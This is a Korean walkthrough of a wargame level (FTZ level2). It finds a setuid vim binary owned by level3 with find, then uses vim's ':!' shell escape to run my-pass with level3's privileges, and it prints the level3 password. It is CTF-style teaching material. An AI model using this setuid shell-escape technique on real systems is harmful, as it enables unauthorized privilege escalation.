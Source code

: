 이번에도 hint 파일을 출력해보면 이렇게 뜬다.
```bash
[level2@ftz level2]$ cat hint


텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...
```

텍스트 파일 편집기중 vim 에디터에서 `!`를 입력하면 쉘 명령어를 실행 시킬 수 있다.

만약에 vim 에디터가 level3권한으로 실행이 된다면 어떨까?

저번에 사용한 `find`명령어로 `level3`권한으로 실행 되는 파일을 찾아보면
```bash
[level2@ftz level2]$ find / -user level3 2> /dev/null
/usr/bin/editor
[level2@ftz level2]$ ls /usr/bin/ -l | grep editor
-rwsr-x---    1 level3   level2      11651 Sep 10  2011 editor
```

그럼 editor 파일을 실행해 보면 일반적인 콘솔 화면이 뜬다.
```bash

~
~
~
~
~
~                              VIM - Vi IMproved
~
~                               version 6.1.320
~                           by Bram Moolenaar et al.
~                 Vim is open source and freely distributable
~
~                        Help poor children in Uganda!
~                type  :help iccf<Enter>       for information
~
~                type  :q<Enter>               to exit
~                type  :help<Enter>  or  <F1>  for on-line help
~                type  :help version6<Enter>   for version info
~
~
~
~
~
```
여기서 `:! my-pass` 명령을 입력하면 level3권한으로 명령어가 실행되지 않을까 생각해 보았다.


```bash

Level3 Password is "can you fly?".


shell returned 37

Hit ENTER or type command to continue
```
성공적으로 실행 되었다.


level3의 패스워드는 `can you fly?`이다.